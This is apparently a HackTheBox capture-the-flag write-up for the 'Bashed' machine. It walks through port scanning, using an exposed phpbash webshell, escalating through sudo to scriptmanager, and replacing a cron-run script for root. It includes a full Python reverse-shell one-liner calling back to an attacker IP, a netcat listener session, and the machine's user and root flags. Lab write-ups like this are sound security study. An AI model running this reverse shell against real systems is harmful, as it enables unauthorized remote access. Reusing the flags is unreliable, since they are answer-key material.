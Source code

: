 # Bashed

> Write-up author: jon-brandy

## Lesson learned:
- Directory listing using gobuster.
- Webshell upload.
- Switch user at webshell --> sudo -u <username> bash -i.
- Utilizing cronjob to gain root.
 
## STEPS:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/06d890ab-a95a-4c82-bc6f-c774d0792714)

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.68 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 02:31 PDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.68
Host is up (0.019s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds
```

1. Based from the result, the machine is running a web application.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bda28df5-de80-4de6-aff5-d6e891c3015e)


2. Found an interesting directory --> `/dev` which leads to a file named `phpbash.php`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29cabec6-e47c-4ed4-90d5-fd801b6dd53d)

 
3. Why it's interesting, because the webpage documented about it, and based from the documentation it gives us a shell.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02196f2f-b47e-4490-8a0a-275115c0bb24)


> GITHUB DOCUMENTATION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7329fd1-1c43-40c2-8020-5c5ced9658f6)


4. So, opening the phpbash.php file will give us a shell.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/37acbeb0-1408-4712-8884-e985d34e4f54)


> GETTING USER FLAG

```
www-data@bashed
:/home# cd arrexel

www-data@bashed
:/home/arrexel# ls

user.txt
www-data@bashed
:/home/arrexel# cat user.txt

9d72b1d760c30a335315b4c35a83d8f5
```

## USER FLAG

```
9d72b1d760c30a335315b4c35a83d8f5
```

5. To get the root flag, obviously we need to do privesc.
6. Let's see are there any sudo permissions for `www-data`.

> RESULT

```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

7. Interesting, we can run any command as scriptmanager.
8. Well to use the sudoers permission, we need to do reverse shell, i used this reverse shell payload template:

```py
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

9. Set a listener at port 1337 then run the script at the webshell.

> RESULT - We got shell.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/130ccffa-a05c-4638-b602-ae05aae78ec3)


10. Now we can run the sudo permission.

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.68] 38330
$ whoami
whoami
www-data
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
scriptmanager@bashed:/var/www/html/dev$ whoami    
whoami
scriptmanager
scriptmanager@bashed:/var/www/html/dev$
```

> Found 2 interesting files.

```
scriptmanager@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ 
```

11. At glance there's no vulnerability at all, but what's interesting here is the .txt file's timestamp keeps updating everytime.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ee6646e-0ef2-478f-82d7-fe0d81737f21)


12. Knowing this, my assumption is the test.py is executed every minute (there is a cron job or any background process that runs the python script automatically.

### FLOW

```
1. Creating a fake test.py which has our reverse shell payload.
2. Run python http.server.
3. Then run wget on our reverse shell to grab the fake test.py from our local machine.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5c83800-5da1-44ca-8d2c-e2675c392093)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b8fa0fd0-dff6-4d73-a607-88f8d585f743)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/180b8ea3-07e7-437f-b6c9-3c2ace516176)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b35da8d-633e-4349-9dc8-506fd9b93d30)


## ROOT FLAG

```
b1f52542e66c5b9aa0c7f33be686b63a
```
